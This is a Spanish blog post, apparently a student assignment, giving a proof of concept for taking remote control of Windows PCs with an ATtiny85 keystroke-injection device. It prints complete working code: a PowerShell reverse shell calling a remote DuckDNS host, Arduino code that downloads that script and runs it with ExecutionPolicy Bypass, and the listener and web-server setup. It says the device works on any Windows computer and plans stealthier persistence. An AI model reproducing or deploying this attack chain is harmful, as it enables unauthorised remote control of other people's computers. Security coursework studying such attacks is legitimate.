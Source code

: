 ```yaml
---
author: Inge Gatovsky
pubDatetime: 2024-10-15T07:15:46.746Z
title: Prueba de Concepto Reverse Shell
slug: prueba-de-concepto-reverse-shell
featured: true
draft: false
tags:
  - sistemas-programables
  - attiny85
  - arduino
  - python
  - windows
  - ubuntu
  - powershell
description: Prueba de Concepto Attiny85.
---
```


## Objetivo

El objetivo de esta prueba de concepto es obtener una shell inversa en un sistema Windows y enviarla a un servidor remoto.

## Desarrollo

### Configuración del servidor 🖥️

<a href="">Tarea 998, Configuración del servidor remoto</a>
Usamos la misma configuración de la <a href="https://blog.hharieta.lat/posts/tarea-998-prueba-de-concepto/#configuración-del-servidor-remoto" target="_blank">Tarea 998, Configuración del servidor remoto</a>, solo que ahora activamos otro puerto en el firewall de Ubuntu:

```bash
sudo ufw allow 8181
```

este puerto servirá para la descarga de nuestro script en el sistema Windows.

### Configuración de Script Rshell

Crea una carpeta llamada `scripts` en el directorio `$HOME` de tu usuario y dentro de esta carpeta crea un archivo llamado `unicorn` con el siguiente contenido:

```powershell
# $HOME/scripts/unicorn
$client = New-Object System.Net.Sockets.TCPClient('dominio.duckdns.org', 8080)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
};
$client.Close();
```

donde `dominio.duckdns.org` es el dominio que se creó en <a href="https://www.duckdns.org/" target="_blank">DuckDNS</a>, y `8080` es el puerto que está escuchando en el servidor remoto

**instala** `screen` en el servidor con el comando:

```bash
sudo apt -y install screen
```

**Crea** una sesión de `screen` con:

```bash
screen -S pythonServer
```

Ahora inicia un servidor HTTP en el puerto 8181 con el siguiente comando:

```bash
python3 -m http.server 8181
```

Presiona `Ctrl + A + D` para salir de la sesión de `screen`, el servidor seguirá corriendo en segundo plano. este pequeño servidor servirá para que nuestro Attiny85 pueda descargar el script `unicorn` y ejecutarlo.

> Puedes volver a la sesión de `screen` con el comando `screen -r pythonServer`

### Configuración de Attiny85 🧮

Usando el siguiente código en el Attiny85, se puede descargar el script `unicorn` y ejecutarlo en el sistema Windows:

```cpp
#include <DigiKeyboard.h>

void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
}

void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(2000); 
}

void typeCommand() {
    DigiKeyboard.println("Invoke-WebRequest -Uri 'http://dominio.duckdns.org:8181/scripts/unicorn' -OutFile 'C:\\Windows\\Temp\\unicorn.ps1';");
    DigiKeyboard.delay(2000);
    DigiKeyboard.println("powershell -ExecutionPolicy Bypass -File C:\\Windows\\Temp\\unicorn.ps1");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void setup() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(500);

    typeCommand();
    }

void loop() {}

```

_donde `dominio.duckdns.org` es el dominio que se creó en <a href="https://www.duckdns.org/" target="_blank">DuckDNS</a>_

El código ino lo debes cargar al Attiny85 similar a como se muestra<a href="https://blog.hharieta.lat/posts/tarea-998-prueba-de-concepto/#configuración-de-arduino-ide-2x" target="_blank">aquí</a>

### Configuración de NetCat 🐱

Usa el comando `nc` en el servidor para escuchar en un puerto específico, por ejemplo el puerto 8080:

```bash
nc -lvnp 8080
```

donde `-l` es para escuchar, `-v` es para verbose, `-n` es para no resolver nombres de dominio y `-p` es para especificar el puerto.

> Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás una shell inversa en el servidor remoto.

### Verificación 👀

Para verificar que la shell inversa se ha obtenido correctamente, se puede ejecutar el siguiente comando en el servidor remoto:

```bash
ls
```

y se debe obtener una salida del directorio de Windows:

![Reverse Shell](../../assets/images/sisprog/IMG_8769.jpg)

se creó un archivo `hack.txt` en el sistema Windows con el comando:

```bash
echo "Hackeado por el Gatovsky" > C:\\Users\\Jorda\\Desktop\\hack.txt
```

y se verificó que se creó correctamente con el comando:

```bash
cat C:\\Users\\Jorda\\Desktop\\hack.txt
```

![Hack](../../assets/images/sisprog/IMG_8770.JPG)

## Proximos Pasos

- [ ] Encriptar la comunicación entre el cliente y el servidor
- [ ] Crear un payload en Atttiny85 para ejecutar la shell inversa en un sistema Windows
- [ ] Crear un servicio de Windows para ejecutar la shell inversa en segundo plano

(Pasos opcionales si no me reprueba el profe)

---

Nota: Ninguna PC fue lastimada en la realización de esta prueba de concepto.
